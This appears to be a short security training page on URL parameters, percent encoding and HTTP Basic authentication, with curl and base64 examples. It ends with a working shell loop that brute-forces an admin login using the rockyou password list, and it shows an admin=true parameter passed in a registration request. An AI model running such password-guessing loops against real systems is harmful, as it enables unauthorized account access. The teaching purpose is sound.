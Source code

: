 ```
An URI (Universal Resource Locator) specify an internet resource, followed by optional parameters.<br/>
The first parameter is identified by a ?, the following ones by a &.<br/>.
If the parameters contain a ? or a &, they are encoded as %3F and %26. This is called Percent (%) encoding.<br/>.https://fr.wikipedia.org/wiki/Percent-encoding<br/>

Exemple:
```
$ curl 'http://localhost:8001/register.php?name=jean&lastname=bon&age=42&admin=true'
```

As unix shell uses the & to launch background tasks, it is imperative to put the URL between quotes '.



<!--- category: HTTP --->
<!--- id: HTTPFormAuthSimple --->
<!--- title: HTTP Authentification Basic --->
<!--- keywords:  --->
## HTTP Authentification Basic

HTTP has basic authentication feature, based on a field containing a username and a password in clear text.<br/>
login:password is base64 encoded then added in the request header.<br/>
Authorization: Basic bG9naW46cGFzc3dvcmQ=<br/>
<br/>
Exemple:
```
GET /hello.txt HTTP/1.1
Host: localhost:8001
Authorization: Basic bG9naW46cGFzc3dvcmQ=
User-Agent: curl/7.58.0
Accept: */*

```


Basic auth with curl: 
```
$ curl -u login:password http://localhost:8001/hello.txt
```


Base64 encode login:password in shell
```
$ printf 'login:password' | base64
bG9naW46cGFzc3dvcmQ=
```

Base64 decode
```
$ printf 'bG9naW46cGFzc3dvcmQ=' | base64 -d
login:password
```


Bruteforce Basic auth with curl and rockyou password list:
```
for i in `cat rockyou.txt`; do printf \n$i:; curl  -u admin:$i http://12.10.1.11/training-http-auth-simple.php; done
```




```